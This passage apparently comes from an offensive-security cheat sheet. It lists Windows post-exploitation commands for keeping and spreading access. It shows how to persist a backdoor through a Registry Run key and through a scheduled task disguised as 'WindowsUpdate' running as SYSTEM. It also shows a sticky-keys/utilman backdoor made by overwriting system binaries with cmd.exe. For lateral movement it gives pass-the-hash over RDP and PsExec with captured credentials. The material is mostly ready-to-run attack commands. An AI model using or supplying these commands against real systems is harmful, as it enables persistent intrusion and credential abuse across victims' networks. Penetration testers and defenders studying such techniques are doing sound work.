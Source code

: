 Registry Run key

> [!example]-
>
> Automatically launch `backdoor.exe` when that user logs in
>
> ```sh
> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\Temp\backdoor.exe"
> ```

Scheduled task

> [!example]-
>
> Run `backdoor.exe` at logon with `SYSTEM` privileges
>
> ```sh
> schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\backdoor.exe" /sc onlogon /ru SYSTEM
> ```

Sticky keys backdoor (persistent)

> [!example]-
>
> ```sh
> copy /y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
> ```
>
> ```sh
> copy /y C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
> ```

___




## Lateral Movement

Move across the network laterally from compromised RDP systems

RDP to other machines

```sh
mstsc /v:<target>
```

Pass-the-Hash to other systems

```sh
xfreerdp /u:<user> /pth:<HASH> /v:<target>
```

Use PSExec with captured credentials

```sh
psexec \\<target> -u <user> -p <password> cmd
```
